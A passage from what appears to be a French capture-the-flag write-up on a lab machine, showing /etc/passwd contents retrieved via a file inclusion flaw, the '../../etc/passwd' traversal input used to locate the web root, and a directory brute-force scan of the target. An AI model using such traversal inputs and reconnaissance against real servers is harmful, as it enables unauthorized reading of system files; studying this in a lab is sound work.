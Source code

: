 ```plain
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ntp:x:103:108::/home/ntp:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
statd:x:105:65534::/var/lib/nfs:/bin/false
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
zico:x:1000:1000:,,,:/home/zico:/bin/bash
```

Face à une telle vulnérabilité l'objectif est d'abord de déterminer où l'on se trouve sur le système (quel est le working directory du script) et d'obtenir des informations sur la configuration du serveur (config Apache et PHP).  

En l’occurrence si on passe juste *../../etc/passwd* on obtient toujours le contenu attendu, ce qui montre que seuls deux dossiers nous séparent de la racine. On peut être dans un */var/www* ou */srv/htdocs*.  

L'entrée du fichier *passwd* pour l'utilisateur *www-data* permet de confirmer que l'on est dans */var/www*.  

Maintenant que l'on sait où l'on est, il faut trouver une fonctionnalité permettant de placer du contenu sur le disque du serveur afin de provoquer son inclusion.  

Je lance un scan de dossiers sur le serveur web et quelques entrées apparaissent :  

```plain
  `==\. dvbuster v1.0 ./=='
      ¨¨¨¨¨¨¨¨¨¨¨¨¨¨¨¨¨
20468 lines to process.
as many requests to send.
Using 4 processes...
Server banner: Apache/2.2.22 (Ubuntu)

Starting buster processes...
http://192.168.1.47/.htaccess/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.47/.htpasswd/ - HTTP 403 (241 bytes, gzip)
http://192.168.1.47/cgi-bin/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.47/css/ - HTTP 200 (468 bytes, gzip) - Directory listing found
http://192.168.1.47/dbadmin/ - HTTP 200 (455 bytes, gzip) - Directory listing found
http://192.168.1.47/doc/ - HTTP 403 (237 bytes, gzip)
http://192.168.1.47/icons/ - HTTP 403 (238 bytes, gzip)
http://192.168.1.47/img/ - HTTP 200 (474 bytes, gzip) - Directory listing found
http://192.168.1.47/js/ - HTTP 200 (467 bytes, gzip) - Directory listing found
http://192.168.1.47/server-status/ - HTTP 403 (240 bytes, gzip)
http://192.168.1.47/vendor/ - HTTP 200 (506 bytes, gzip) - Directory listing found
http://192.168.1.47/view/ - HTTP 200 (20 bytes, gzip)
100% - DONE
100% ~user/                        Duration: 0:00:22.138620
```
